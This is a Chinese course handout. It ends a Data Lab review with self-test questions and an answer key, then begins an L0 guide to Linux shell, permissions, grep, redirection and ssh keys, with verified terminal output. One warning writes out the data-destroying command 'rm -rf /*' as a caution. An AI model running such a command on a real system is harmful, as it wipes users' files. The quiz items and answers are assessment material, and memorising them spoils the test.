第一，移位量不能是 32：1 << (32 – n) 在 n = 0 时未定义，在 x86-64 上得到 1（第 3.4、4.9 节）。第二，算术右移会补 1：getByte 必须与 0xFF，logicalShift 必须清高位（第 3.3、3.4 节）。第三，TMin 的相反数是它自己：判断“是否非零”“是否为正”时，TMin 是最常见的反例（第 3.9、4.4、4.11 节）。第四，减法溢出不能套加法公式：y = TMin 时 –y 仍为 TMin（第 2.5、3.12 节）。第五，恰好等于 TMin 不是溢出（第 3.12 节）。第六，浮点乘 2 溢出时要清尾数，否则得到 NaN（第 3.13、5.3 节）。第七，+0 与 –0 相等，比较时要单独处理（第 3.16 节）。第八，dlc 要求声明在语句之前，复合赋值也计数（第 1.3 节）。
6.3 自测题#
以下都是单选题，答案和逐项分析在后面。所有数值都由程序核对（sim/choice/dl_choice.c、dl_selftest2.c）。
1．x = 0x80000000（TMin）。下列说法错误的一项是：
A. -x 与 x 相等 B. x >> 31 等于 –1 C. !!x 等于 0 D. x & -x 等于 x
2．要求用不超过 3 个操作符实现 isNotEqual(x, y)：x ≠ y 时返回 1，否则返回 0。下面符合要求的是：
A. !!(x ^ y) B. !(x ^ y) C. (x ^ y) >> 31 D. !!(x + ~y + 1)
3．replaceByte(x, n, c) 把 x 的第 n 个字节换成 c（0 ≤ c ≤ 255）。设 sh = n << 3，mask = 0xFF << sh，返回值应为：
A. (x & mask) | (c << sh) B. (x | mask) & (c << sh) C. (x & ~mask) | (c << sh) D. x ^ (c << sh)
4．有人用 !(x + x) 判断 x 是否为 0。它在下面哪个输入上给出错误的结果？
A. TMin B. 0 C. TMax D. –1
5．按第 3.8 节的 divpwr2，divpwr2(–7, 1) 的值是：
A. –4 B. 4 C. 3 D. –3
6．bitCount 的第一步是 x = (x & m1) + ((x >> 1) & m1)，m1 = 0x55555555。x = 11 时，这一步之后 x 等于：
A. 3 B. 6 C. 2 D. 11
7．float_twice(0xFF7FFFFF) 的返回值是：
A. 0x7F800000 B. 0xFF800000 C. 0xFFFFFFFF D. 0xFF7FFFFF
8．float_half(0x3F800000) 的返回值是：
A. 0x00400000 B. 0x3F400000 C. 0x3E800000 D. 0x3F000000
9．第 3.16 节的 float_greater 把位模式转换成可以按无符号数比较的“键”。关于其中 ±0 的处理，正确的一项是：
A. 两者的键不同，直接比较会得出 +0 > –0，所以要先判断两者是否都为零
B. +0 与 –0 的键相同，不需要单独处理
C. 只要比较两个数的符号位，就能正确处理 ±0
D. –0 是 NaN 的一种，在前面判断 NaN 时已经排除
自测题答案#
1．C。TMin 是非零数，!!x 等于 1。其余三项都成立：TMin 的相反数回绕成它自己，-x 与 ~x + 1 都是 0x80000000；算术右移 31 位得到全 1，即 –1；x & -x 取出最低位的 1，而 TMin 只有最高位是 1，所以结果就是 TMin（实测）。
2．A。x ^ y 非零当且仅当 x ≠ y，!! 把非零值变成 1，共 3 个操作符。B 正好相反，是 isEqual。C 只取符号位，x ^ y 为正数时（例如 x = 1、y = 2）返回 0，结果不对。D 的逻辑是对的（x – y 为零当且仅当 x = y，在 1 千万组输入上与 x ≠ y 一致），但用了 5 个操作符，超过了 3 个的限制。
3．C。先用 x & ~mask 把第 n 个字节清零，再把 c 移到同一位置或进去。代入 replaceByte(0x12345678, 1, 0xAB)：C 得 0x1234AB78，正确；B 先或上全 1 的字节再与，只剩下 c 所在的字节，得 0x0000AB00；A 保留的是要换掉的字节，得 0x0000FF00 这样的结果；D 用异或，只有原字节为 0 时才对，这里得 0x1234FD78。
4．A。x + x = 0 的解有两个：0 和 TMin（TMin + TMin 回绕为 0）。x = TMin 时它返回 1，但 TMin 不为 0。B 的结果正确；TMax + TMax = –2、(–1) + (–1) = –2，都不为 0，C、D 的结果也正确。正确的写法是 !x。
5．D。–7 为负，偏置为 21 – 1 = 1，–7 + 1 = –6，–6 >> 1 = –3，与 C 语言的 –7 / 2 = –3 一致。A 是不加偏置时 –7 >> 1 的结果（向下取整）；C 丢了符号；B 既丢了符号又是按向下取整算出的绝对值。
6．B。11 = 0b1011。x & m1 = 0b0001，(x >> 1) & m1 = 0b0101，相加得 0b0110 = 6。结果的每两位是原来那两位中 1 的个数：高两位 10 中有 1 个 1，记为 01；低两位 11 中有 2 个 1，记为 10。A 是 11 中 1 的总个数，那是 bitCount 最终的结果，不是第一步的结果。
7．B。0xFF7FFFFF 是绝对值最大的负的有限数，乘 2 溢出，结果为 –∞，即 0xFF800000。A 丢了符号；C 是只把阶码加 1 而不清尾数的结果，阶码全 1、尾数非零，是 NaN（例 10 的错误）；D 是原值，误以为最大的有限数乘 2 后不变。
8．D。1.0 除以 2 得 0.5，规格化数只需把阶码减 1，结果 0x3F000000。B 是 0.75，C 是 0.25（阶码减了 2），A 是一个非规格化数，把 1.0 误当成非规格化数处理时才会得到。
9．A。+0 的键是 0x80000000，–0 的键是 0x7FFFFFFF，两者不同，按键比较会得出 +0 > –0，而浮点比较中 +0 与 –0 相等，float_greater(+0, –0) 应为 0。只有这一对数值相等而位模式不同，所以单独判断一次即可。B 说反了；C 也会把两者判为不同；D 不对，–0 是一个普通的零，不是 NaN。
—— Data Lab 讲义完 ——
计算机系统导论（ICS）
复习讲义 · Lab 专题
L0：Linux 环境与工具（Shell、权限、SSH、tar、gcc、make 与 binutils）
如何使用本讲义#
ICS 的每个 Lab 都在 Linux 命令行下完成：在终端里解压 handout、编辑源文件、用 make 编译、用 gdb 调试、用 objdump 读机器码，有的还要通过 ssh 登录课程服务器、用 scp 把文件传回本机。这些操作每天都在做，但很少有人系统地想过它们为什么是这样设计的。学期末的 Lab 测验专门有一组 L0 题考这些内容，共 10 道单选题、20 分，是所有实验中分值最高的一组；题目考的不是背命令，而是分辨相近的写法：ls -a 与 ls -l、scp -P 与 scp -p、公钥与私钥各放在哪里、make 不带参数时执行哪一条规则。
本讲义按“做 Lab 时遇到的顺序”组织。第 0 部分说明怎样得到一个 Linux 环境。第一到第五部分是命令行的基本功：文件与目录（第一部分）、权限（第二部分）、文本处理、管道与重定向（第三部分）、远程登录与文件传输（第四部分）、打包与解压（第五部分）。第六、七部分是开发工具：gcc 的常用选项与 make（第六部分），目标文件与 binutils 中的工具（第七部分）。第八部分按 Lab 测验的题型给出单选例题，第九部分是速查表和自测题。
讲义中每一条命令都在验证环境中实际运行过，代码框里的输出就是运行的结果，开头带 $ 的行是输入的命令。读的时候最好打开一个终端，跟着敲一遍：命令行的许多细节，比如错误信息的措辞、选项大小写的差别，只有亲手试过才记得住。
表 1 L0 内容地图
| 主题 | 核心问题 | 本讲义 |
|---|---|---|
| 环境 | 在哪里做实验，本机能不能代替 | 第 0 部分 |
| 文件与目录 | 路径；ls 的常用选项；cd 的几种写法；删除目录 | 1.1–1.4 |
| 权限 | 三组权限各管谁；rwx 对文件和目录的含义；chmod 的数字写法与符号写法；umask | 2.1–2.4 |
| 文本与重定向 | grep 的选项；标准输出与标准错误；管道 | 3.1–3.2 |
| 远程 | ssh 密钥登录的原理；scp 的参数顺序与端口 | 4.1–4.3 |
| 打包 | tar 的选项；为什么要在 Linux 中解压 | 第五部分 |
| 编译与 make | gcc 的选项；规则、默认目标、模式规则、增量编译 | 6.1–6.3 |
| 二进制工具 | 汇编与反汇编；objdump、nm、readelf、strings、ldd | 7.1–7.2 |
| 测验与自测 | 单选例题与自测题 | 第八、九部分 |
0 准备一个 Linux 环境#
各个 Lab 的实验说明都要求在 x86-64 Linux 上完成，最稳妥的是课程提供的 xLab 容器：它与评分环境一致，Lab 中需要的 gcc、gdb、valgrind、python3 等工具大多已经装好，Bomb Lab、Attack Lab 这类要与评分服务器通信的实验也只能在那里正常运行。登录容器的方式通常是 ssh（第四部分），把文件传进传出用 scp。
在自己的电脑上练习命令行也很方便。Linux 系统本身就可以；Windows 上可以用 WSL2 装一个 Ubuntu；macOS 的终端虽然也是类 Unix 环境，但它的命令来自 BSD，与 Linux 的 GNU 版本在选项和输出上有不少差别（例如 macOS 没有 ldd，sed -i 的写法也不同），而且处理器多半是 ARM，不能直接运行 Lab 中的 x86-64 程序。在 Mac 上做 Linux 练习，可以用 Docker、colima 一类的工具开一个 Linux 容器，本讲义的验证环境就是这样得到的。
表 2 几种环境的比较
| 环境 | 适合做什么 | 注意事项 |
|---|---|---|
| 课程 xLab 容器 | 所有 Lab 的正式工作；与评分环境一致 | 通过 ssh 登录；离开时注意保存文件 |
| 本机 Linux 或 WSL2 | 练习命令、编写和调试大多数 Lab | Bomb Lab、Attack Lab 要与服务器通信，应在课程容器中完成 |
| macOS 终端 | 练习 ls、cd、grep 等通用命令 | BSD 工具与 GNU 工具的选项不同；没有 ldd；ARM 处理器不能运行 x86-64 程序 |
| Mac 上的 Linux 容器 | 在 Mac 上得到真正的 Linux 命令行 | 容器的处理器是 ARM；x86-64 的汇编与反汇编要用交叉工具（第 7.1 节） |
⚠ 本讲义的验证环境是 ARM 处理器上的 Ubuntu
讲义中的命令都在 arm64 的 Ubuntu 24.04 容器中运行，所以 file 报告的是“ARM aarch64”，ldd 列出的库在 /lib/aarch64-linux-gnu 下。这些地方在 x86-64 的课程容器中会显示为 x86-64 和 /lib/x86_64-linux-gnu，命令的用法和含义完全相同。涉及 x86-64 汇编的例子，讲义使用 x86_64-linux-gnu-gcc、x86_64-linux-gnu-objdump 等交叉工具，在课程容器中直接写 gcc、objdump 即可。
第一部分 Shell、文件与目录#
1.1 命令行与路径#
打开终端，看到的是一个 shell（Ubuntu 默认是 bash）：它读入一行命令，把第一个词当作要运行的程序，其余的词当作参数传给它。以 - 开头的参数通常是选项，例如 ls -l 中的 -l；几个单字母选项可以合写，ls -l -a 与 ls -la 相同。不知道一个命令怎样用时，man ls 显示完整的手册，ls --help 显示简短的说明。
Linux 的文件组织成一棵以 / 为根的目录树，每个进程都有一个当前工作目录，pwd 打印它。指定文件的位置有两种写法。绝对路径从根开始，例如 /home/ubuntu/proj/a.txt；相对路径从当前目录开始，例如当前目录是 /home/ubuntu 时，proj/a.txt 指的是同一个文件。几个特殊的名字要记住：. 是当前目录，.. 是上一级目录，~ 是自己的主目录（home directory）。所以执行当前目录下的程序要写 ./prog：shell 只在环境变量 PATH 列出的目录中查找命令，当前目录通常不在其中，直接写 prog 会报“command not found”。
1.2 ls：列出目录的内容#
ls 是用得最多的命令，它的几个选项在测验中常被放在一起考。验证环境中的一个目录里有 a.txt、big.txt（2000 字节）、old.txt（修改时间是 2026 年 1 月 1 日）、子目录 src，以及一个以点开头的文件 .hidden：
$ ls
a.txt
big.txt
old.txt
src
$ ls -a
.
..
.hidden
a.txt
big.txt
old.txt
src
$ ls -l
total 12
-rw-r--r-- 1 ubuntu ubuntu 6 Nov 13 15:45 a.txt
-rw-r--r-- 1 ubuntu ubuntu 2000 Nov 13 15:45 big.txt
-rw-r--r-- 1 ubuntu ubuntu 0 Jan 1 2026 old.txt
drwxr-xr-x 2 ubuntu ubuntu 4096 Nov 13 15:45 src
$ ls -lh big.txt
-rw-r--r-- 1 ubuntu ubuntu 2.0K Nov 13 15:45 big.txt
$ ls -lt
total 12
-rw-r--r-- 1 ubuntu ubuntu 6 Nov 13 15:45 a.txt
-rw-r--r-- 1 ubuntu ubuntu 2000 Nov 13 15:45 big.txt
drwxr-xr-x 2 ubuntu ubuntu 4096 Nov 13 15:45 src
-rw-r--r-- 1 ubuntu ubuntu 0 Jan 1 2026 old.txt以点开头的文件称为隐藏文件，不加选项时 ls 不显示它们；配置文件大多是隐藏文件，例如 ~/.bashrc、~/.ssh。-a（all）显示全部，连同 . 和 .. 两项；-A 只是不显示 . 和 ..。-l 是长格式，每行一个文件，依次是类型与权限（第二部分）、硬链接数、所有者、所属组、大小、修改时间和文件名。-h 要和 -l 一起用，把大小写成 2.0K 这样易读的形式；-t 按修改时间排序，最新的在前，所以 old.txt 排到了最后。
表 3 ls 的常用选项（验证环境实测）
| 选项 | 作用 |
|---|---|
-a | 显示所有文件，包括以 . 开头的隐藏文件，以及 . 和 .. |
-A | 与 -a 相同，但不显示 . 和 .. |
-l | 长格式：类型与权限、链接数、所有者、组、大小、修改时间、文件名 |
-h | 与 -l 合用，大小以 K、M、G 为单位显示 |
-t | 按修改时间排序，最新的在前 |
-r | 反转排序的顺序，常与 -t 合用：ls -ltr 让最新的文件排在最后 |
-R | 递归列出子目录 |
1.3 cd：切换目录#
cd 改变当前工作目录。除了普通的路径，它还认识几种简写：cd .. 回到上一级，cd ~ 或不带参数的 cd 回到主目录，cd - 回到上一次所在的目录，并把那个目录打印出来。cd - 在两个目录之间来回切换时很方便，比如一边在 handout 目录里编译、一边去看另一处的源文件：
$ cd src; pwd; cd -; pwd
/tmp/l0/proj/src
/tmp/l0/proj
/tmp/l0/proj
$ cd ..; pwd; cd ~; pwd
/tmp/l0
/home/ubuntucd - 那一行输出了两次 /tmp/l0/proj：一次是 cd - 自己打印的目标目录，一次是随后的 pwd。注意 - 在这里不是选项，而是一个特殊的参数，代表 shell 记录下来的上一个目录（保存在环境变量 OLDPWD 中）。
1.4 创建、复制、移动与删除#
mkdir 创建目录，cp 复制，mv 移动或改名，rm 删除文件，rmdir 删除空目录。它们的规则都很朴素，但有几处容易出错，验证环境中的结果如下：
$ rm empty
rm: cannot remove 'empty': Is a directory
$ rmdir empty
$ rmdir full
rmdir: failed to remove 'full': Directory not empty
$ rm -r full
$ mkdir a/b/c
mkdir: cannot create directory 'a/b/c': No such file or directory
$ mkdir -p a/b/c
$ cp a dir_copy
cp: -r not specified; omitting directory 'a'
$ cp -r a dir_copy不带选项的 rm 只删除文件，遇到目录就报错。删除空目录可以用 rmdir，也可以用 rm -d；删除非空目录要用 rm -r（recursive），它把目录连同里面的所有内容一起删除。rmdir 只能删除空目录，这是一种保护：非空时它拒绝执行。mkdir 默认只创建最后一级，中间的目录不存在时报错，加 -p 才会把整条路径都建出来（已经存在也不报错）。cp 复制目录同样要加 -r。
⚠ rm 没有回收站
命令行中删除的文件不会进入回收站，rm -r 删掉的目录无法恢复。使用 rm -rf（f 表示不提示、忽略不存在的文件）之前，先用 ls 确认一下要删的是什么；尤其不要在路径中使用未经确认的变量或通配符，rm -rf $DIR/* 在 DIR 为空时会变成 rm -rf /*。做 Lab 时，修改重要文件之前先复制一份或者用 git 提交，比任何删除技巧都可靠。
shell 在运行命令之前会展开通配符：* 匹配任意多个字符，? 匹配一个字符，[abc] 匹配其中一个字符。rm *.o 删除当前目录下所有以 .o 结尾的文件，这个展开是 shell 做的，rm 收到的是一串具体的文件名。以点开头的隐藏文件不会被 * 匹配。
第二部分 权限#
2.1 ls -l 的前十个字符：类型与三组权限#
ls -l 每一行开头的十个字符描述文件的类型和权限，例如：
$ ls -l run.sh
-rwxr-x--- 1 ubuntu ubuntu 22 Nov 19 06:05 run.sh这十个字符要分成四段来读（图 1）。第 1 个字符是类型：- 是普通文件，d 是目录，l 是符号链接。后面九个字符每三个一组：第 2–4 个字符是所有者（user，简写 u）的权限，第 5–7 个是所属组（group，g）的权限，第 8–10 个是其他人（others，o）的权限。每组内部的顺序固定为读（r）、写（w）、执行（x），有这项权限就写字母，没有就写 -。所以 -rwxr-x--- 表示：普通文件；所有者可读、可写、可执行；所属组的成员可读、可执行，不能写；其他人什么都不能做。
图 1 -rwxr-x--- 的十个字符：第 1 个是类型，后面每三个一组，每组按 r = 4、w = 2、x = 1 相加，得到 chmod 的一位数字
所有者和所属组就是 ls -l 输出的第三、四列，上例中都是 ubuntu。系统判断一个用户能否访问文件时，只看三组中的一组：用户是文件的所有者，就只看第一组；否则，用户属于文件的所属组，就只看第二组；两者都不是，才看第三组。因此三组权限并不是叠加的。把自己的文件改成所有者一组全空、其他两组全满，自己反而读不了：
$ chmod 077 g
$ ls -l g
----rwxrwx 1 ubuntu ubuntu 3 Nov 19 06:05 g
$ cat g
cat: g: Permission denied三种权限对文件和目录的含义不同，这是容易忽略的地方（表 4）。
表 4 r、w、x 对文件与目录的含义
| 权限 | 对文件 | 对目录 |
|---|---|---|
| r | 可以读取内容 | 可以列出目录中的文件名（ls） |
| w | 可以修改内容 | 可以在目录中创建、删除、改名文件 |
| x | 可以作为程序执行 | 可以进入目录（cd），可以访问其中的文件 |
能否删除一个文件，取决于它所在目录的 w 权限，而不是文件本身的权限。目录的 x 权限也很关键：没有 x，即使有 r，也进不去这个目录。验证环境中把一个目录的权限改成 644（rw-r--r--）之后，cd d 立刻失败：
$ mkdir d; chmod 644 d; ls d; cd d
bash: cd: d: Permission denied2.2 chmod 的数字写法：三位数字对应三组权限#
chmod 修改权限，有数字和符号两种写法。数字写法用三位数字一次性写出全部九个权限位，三位数字从左到右依次对应 2.1 节的三组：第一位是所有者（第 2–4 个字符），第二位是所属组（第 5–7 个字符），第三位是其他人（第 8–10 个字符）。每一位的算法相同：把这一组的 r、w、x 看成三位二进制数，有权限记 1、没有记 0，也就是 r = 4、w = 2、x = 1，有哪几项就把哪几项加起来。一组最多是 4 + 2 + 1 = 7，最少是 0，所以每位数字都在 0 到 7 之间，正好是一位八进制数。表 5 列出了全部八种情况。
表 5 一位数字与一组权限的对应关系
| 数字 | 二进制 | 一组权限 | 含义 |
|---|---|---|---|
| 0 | 000 | --- | 没有任何权限 |
| 1 | 001 | --x | 只能执行 |
| 2 | 010 | -w- | 只能写 |
| 3 | 011 | -wx | 写和执行 |
| 4 | 100 | r-- | 只读 |
| 5 | 101 | r-x | 读和执行 |
| 6 | 110 | rw- | 读和写 |
| 7 | 111 | rwx | 读、写、执行全部都有 |
有了这张表，数字与 ls -l 的字符可以互相换算。从数字到字符，把三位数字拆开，各查一次表：750 拆成 7、5、0，得到 rwx、r-x、---，合起来是 rwxr-x---，这正是图 1中的例子。从字符到数字，把九个字符三个一切，各算一位：rw-r----- 切成 rw-、r--、---，分别是 4 + 2 = 6、4、0，所以是 640。验证环境中执行 chmod 640 t 之后，ls -l 显示的正是 -rw-r-----。
数字写法总是把九个位全部重新设定一遍，与文件原来的权限无关。实际使用中，下面几个值最常见：
表 6 chmod 的常用数字
| 数字 | 权限 | 典型用途 |
|---|---|---|
| 755 | rwxr-xr-x | 脚本、程序、目录：所有者完全控制，其他人可读可执行 |
| 644 | rw-r--r-- | 普通文件：所有者可读写，其他人只读 |
| 700 | rwx------ | 只有自己能用的目录，例如 ~/.ssh |
| 600 | rw------- | 只有自己能读写的文件，例如 SSH 私钥 |
| 777 | rwxrwxrwx | 所有人都有全部权限，几乎不应该使用 |
写数字时要注意位数。少于三位时，chmod 在左边补 0：chmod 75 t 等于 chmod 075 t，结果是 ----rwxr-x，所有者反而什么权限都没有。写成四位时，最左边一位是 setuid 等特殊权限位，chmod 0755 与 chmod 755 效果相同，做 Lab 时用不到特殊位。数字中出现 8 或 9 会直接报错 invalid mode，因为每一位都是八进制数。
2.3 chmod 的符号写法：只改动指定的位#
符号写法的格式是“对谁 + 怎样改 + 哪些权限”，中间不加空格。“对谁”可以是 u（所有者）、g（所属组）、o（其他人）中的一个或几个，也可以写 a（all），表示三组全部，等价于 ugo。“怎样改”有三种：+ 加上，- 去掉，= 设为恰好这些。“哪些权限”是 r、w、x 的任意组合。要同时修改几组，用逗号隔开，例如 u=rwx,g=rx,o=。
表 7 从同一个起点 644（rw-r--r--）出发，列出不同命令的结果，都是在验证环境中逐条执行得到的。
表 7 符号写法的例子（每条都从 644 出发）
| 命令 | 结果 | 数字 | 说明 |
|---|---|---|---|
chmod u+x | rwxr--r-- | 744 | 所有者加上执行权限，其余不变 |
chmod g+w | rw-rw-r-- | 664 | 所属组加上写权限 |
chmod o-r | rw-r----- | 640 | 其他人去掉读权限 |
chmod go-r | rw------- | 600 | 所属组和其他人都去掉读权限 |
chmod ug+x | rwxr-xr-- | 754 | 所有者和所属组都加上执行权限 |
chmod a+x | rwxr-xr-x | 755 | 三组全部加上执行权限 |
chmod u-w,o+x | r--r--r-x | 445 | 逗号分隔的两处修改依次生效 |
chmod o= | rw-r----- | 640 | 等号后面为空：其他人一项权限都不留 |
chmod u=rwx,g=rx,o= | rwxr-x--- | 750 | 三组都用等号，效果与数字写法相同 |
chmod a=r | r--r--r-- | 444 | 三组全部设为只读 |
chmod a=rwx | rwxrwxrwx | 777 | 所有人拥有全部权限 |
从表中可以看出两种写法的分工。+ 和 - 只改动命令中提到的那几位，其余的位保持原样，适合“只想加一个执行权限”这类场合；= 把指定的组整组改写，没提到的组仍然不变；数字写法则是九个位全部重写。想表达“全部”，有两层意思：对象上的全部是 a，权限上的全部是 rwx，两者合起来 a=rwx 就是 777。
省略“对谁”也是允许的，例如做 Lab 时最常用的 chmod +x run.sh，这时修改作用于三组。不过省略时有一个例外：被 umask（2.4 节）屏蔽的位不会被加上。验证环境的 umask 是 022，它屏蔽了所属组和其他人的写权限，所以从 444 出发，chmod +w 得到的是 644，只有所有者获得了写权限；chmod a+w 才得到 666。+x 不受这个例外的影响，因为 022 不屏蔽执行权限，所以 chmod +x 与 chmod a+x 结果相同。要确保改到三组，就明确写出 a。
下面是一个完整的例子。脚本 file.py 刚创建时是 644，没有执行权限，直接运行会报“Permission denied”；改成 755 之后就能运行了。最后两条命令先回到 644，再用符号写法给所有者加上 x、给所属组去掉 r，得到 rwx---r--，也就是 704：
$ ls -l file.py
-rw-r--r-- 1 ubuntu ubuntu 24 Nov 13 15:45 file.py
$ ./file.py
bash: ./file.py: Permission denied
$ chmod 755 file.py
$ ls -l file.py
-rwxr-xr-x 1 ubuntu ubuntu 24 Nov 13 15:45 file.py
$ ./file.py
run ok
$ chmod 644 file.py
$ chmod u+x,g-r file.py
$ ls -l file.py
-rwx---r-- 1 ubuntu ubuntu 24 Nov 13 15:45 file.py从 Autolab 下载、或者在 Windows 上解压之后，脚本和程序常常丢了执行权限，运行时报“Permission denied”，chmod +x 加上执行权限即可（第五部分）。
2.4 umask：新文件的默认权限#
新建的文件是什么权限，由 umask 决定。umask 也是三位八进制数，各位与 chmod 的三位一一对应，但意义相反：umask 中为 1 的位，会从默认权限中去掉。普通文件的默认权限是 666（rw-rw-rw-，不含执行权限），目录是 777。验证环境的 umask 是 022，即去掉所属组和其他人的写权限，所以新文件是 644、新目录是 755。umask 命令显示当前的值，umask -S 用符号写法显示允许保留的权限：
$ umask
0022
$ umask -S
u=rwx,g=rx,o=rx
$ touch n; mkdir nd; ls -ld n nd
-rw-r--r-- 1 ubuntu ubuntu 0 Nov 19 06:07 n
drwxr-xr-x 2 ubuntu ubuntu 4096 Nov 19 06:07 nd“去掉”是按位去掉，不是做减法。umask 为 033 时，新文件是 644，而不是 666 − 033 = 633：文件本来就没有执行权限，umask 中的 x 位没有可去掉的东西。验证环境中实测，umask 033 下新文件是 644、新目录是 744。编译器生成的可执行文件本来就带有执行权限，所以 gcc -o prog 之后可以直接 ./prog。
常见问题：为什么用 sudo 或 root 运行时，权限好像不起作用？
root 用户可以绕过大部分权限检查：它能读写任何文件、进入任何目录。所以在 root 下练习权限，看到的结果与普通用户不同，例如权限为 000 的文件 root 照样能读。本讲义的实验都以普通用户 ubuntu 运行，才能看到“Permission denied”。在课程容器中也应当以自己的普通账户工作，只在安装软件等必要时用 sudo。
第三部分 文本处理、管道与重定向#
3.1 查看文件与 grep#
查看文本文件有几种常用的命令：cat 把内容一次全部打印出来，适合短文件；less 分页查看，可以上下翻页、按 / 搜索，按 q 退出；head、tail 只看开头或结尾的若干行，tail -n 20 log.txt 看最后 20 行。做 Lab 时，读 objdump 的输出、valgrind 的报告都离不开这几个命令。
grep 在文本中查找包含某个模式的行，这是最常用的过滤工具，也是测验中考选项含义的常客。验证环境中的 file.txt 有四行：Hello world、hello ICS、HELLO again、bye。
$ grep hello file.txt
hello ICS
$ grep -i hello file.txt
Hello world
hello ICS
HELLO again
$ grep -in hello file.txt
1:Hello world
2:hello ICS
3:HELLO again
$ grep -v -i hello file.txt
bye
$ grep -c -i hello file.txt
3grep 默认区分大小写，所以第一条只找到一行。-i（ignore case）忽略大小写，三种写法的 hello 都匹配。-n 在每行前面加上行号，-v 反过来输出不匹配的行，-c 只输出匹配的行数。另外 -r 在目录中递归查找，例如在 handout 目录里 grep -rn "explode_bomb" . 可以找出所有出现这个名字的地方，-w 只匹配完整的单词。
表 8 grep 的常用选项
| 选项 | 作用 |
|---|---|
-i | 忽略大小写 |
-n | 显示行号 |
-v | 输出不匹配的行 |
-c | 只输出匹配的行数 |
-r | 递归查找目录中的所有文件 |
-w | 只匹配完整的单词 |
-E | 使用扩展正则表达式，如 grep -E 'phase_[1-6]' |
3.2 标准输入、标准输出与标准错误#
每个进程启动时都有三个打开的文件：标准输入（文件描述符 0）、标准输出（1）和标准错误（2），在终端中它们都连着终端。程序的正常输出写到标准输出，错误信息写到标准错误。shell 的重定向可以把它们改连到文件：
表 9 重定向的写法
| 写法 | 含义 |
|---|---|
cmd > file | 标准输出写入 file，原有内容被覆盖 |
cmd >> file | 标准输出追加到 file 的末尾 |
cmd 2> file | 标准错误写入 file |
cmd > file 2>&1 | 标准输出写入 file，标准错误也送到标准输出所在的地方 |
cmd < file | 从 file 读取标准输入 |
cmd1 | cmd2 | 管道：cmd1 的标准输出成为 cmd2 的标准输入 |
标准输出和标准错误是分开的，这一点用一个不存在的文件就能看出来。只重定向标准输出时，ls 的错误信息照样显示在终端上，输出文件是空的；重定向标准错误，错误信息才进入文件：
$ ls nosuchfile > out2.txt
ls: cannot access 'nosuchfile': No such file or directory
$ wc -c < out2.txt
0
$ ls nosuchfile 2> err.txt
$ cat err.txt
ls: cannot access 'nosuchfile': No such file or directory
$ echo first > out.txt; echo second >> out.txt; cat out.txt
first
second2>&1 的意思是“让 2 号描述符指向 1 号当前指向的地方”，所以它要写在 > file 之后：cmd > file 2>&1 把两者都送进 file，而 cmd 2>&1 > file 只把标准输出送进 file，标准错误仍然到终端。验证环境中把顺序写反之后，ls 的错误信息仍然出现在终端上，文件里只有正常的输出。shell 实现重定向用的是复制文件描述符的系统调用 dup2，教材第 10 章（系统级 I/O）会讲到。
Lab 中经常用到这些写法：Bomb Lab 和 Attack Lab 用 ./ctarget -q < input.raw（或 -i 选项）从文件读入输入；./hex2raw < p.txt > p.raw 同时重定向输入和输出；make 2>&1 | less 把编译器的大量警告一起分页查看。如果把 2>&1 误写成 2>1，标准错误会写进一个名叫 1 的文件。
管道 | 把前一个命令的标准输出直接接到后一个命令的标准输入，不经过临时文件，几个小工具就能组合成一个处理流程。例如数出匹配的行数，既可以用 grep -c，也可以写成管道：
$ grep -i hello file.txt | wc -l
3
$ wc -l < file.txt
4wc（word count）统计行数（-l）、单词数（-w）、字节数（-c）。做 Lab 时常见的管道有：objdump -d bomb | less 分页查看反汇编；objdump -d rtarget | grep -n "c3" 找出含有 ret 字节的行；cat p.txt | ./hex2raw | ./ctarget -q，把十六进制文本转换后直接作为输入。第 16 讲讲过，管道中的每个命令都是一个独立的进程，标准输出连到管道时变成全缓冲，所以程序的输出有时会“晚一点”才出现。
第四部分 远程登录与文件传输#
4.1 ssh：登录远程主机#
ssh（secure shell）在本机与远程主机之间建立一条加密的连接，在远程主机上运行 shell 或命令。基本写法是 ssh 用户名@主机，例如 ssh ubuntu@10.0.0.5；服务器的 SSH 服务默认在 22 端口，不是默认端口时用小写的 -p 指定，例如 ssh -p 2222 ubuntu@10.0.0.5。在 ssh 后面直接写一条命令，会在远程执行它然后退出。
为了验证这一节和下一节的内容，在验证环境的容器里启动了一个监听 2222 端口、只允许密钥登录的 SSH 服务，用户 ubuntu 从本机登录它。默认端口上没有服务，连接被拒绝；指定 2222 端口才能登录：
$ ssh -p 2222 ubuntu@localhost 'echo 登录成功：$(whoami)@$(hostname)'
登录成功：ubuntu@b1f26111c9dc
$ ssh ubuntu@localhost 'echo 默认端口'
ssh: connect to host localhost port 22: Connection refused为了让输出简洁，这里省略了实际命令中的 -i ~/.ssh/key（指定私钥文件）和两个关闭主机密钥确认的选项，完整的命令见 sim/run_all.sh。第一次连接一台主机时，ssh 会显示它的主机密钥指纹，询问是否继续；回答 yes 之后，指纹记录在 ~/.ssh/known_hosts 中，以后连接时如果指纹变了，ssh 会发出警告，提醒可能有人冒充这台主机。
4.2 密钥登录：公钥放在服务器，私钥留在本机#
每次输入密码既麻烦又不够安全，ssh 更常用的是公钥认证。用 ssh-keygen 在本机生成一对密钥：私钥留在本机，相当于自己的身份证明，绝不能交给别人；公钥可以公开，把它的内容加到服务器上自己账户的 ~/.ssh/authorized_keys 文件中。登录时，服务器用公钥出一道题，只有持有对应私钥的人才能答对，私钥本身从不离开本机。
$ ssh-keygen -t ed25519 -f ~/.ssh/key -N '' -C l0-demo
$ ls -l ~/.ssh
-rw------- 1 ubuntu ubuntu 399 Nov 13 15:45 key
-rw-r--r-- 1 ubuntu ubuntu 89 Nov 13 15:45 key.pub
$ head -c 60 ~/.ssh/key.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBaT5/rmk74+1mjTTmDLpgGKssh-keygen 生成两个文件：key 是私钥，权限是 600，只有自己能读写；key.pub 是公钥，权限是 644，内容是一行以 ssh-ed25519 开头的文本。不用 -f 指定文件名时，默认生成 ~/.ssh/id_ed25519 和 ~/.ssh/id_ed25519.pub。-N 指定保护私钥的口令，这里为了演示设为空；日常使用最好设一个口令。把 key.pub 的内容追加到服务器的 ~/.ssh/authorized_keys 之后，就能用私钥登录了；不提供私钥时，因为这台服务器关闭了密码登录，连接被拒绝：
$ ssh -p 2222 -i /dev/null ubuntu@localhost true
ubuntu@localhost: Permission denied (publickey).⚠ 私钥的权限必须是 600，~/.ssh 必须是 700
ssh 会检查私钥文件的权限，如果组或其他人也能读，它会拒绝使用这把私钥，提示“UNPROTECTED PRIVATE KEY FILE”。同样，服务器上的 ~/.ssh 目录和 authorized_keys 文件如果其他人可写，sshd 也会拒绝公钥认证。从 Windows 复制过来的私钥最容易出这个问题，用 chmod 600 私钥文件 修正即可。
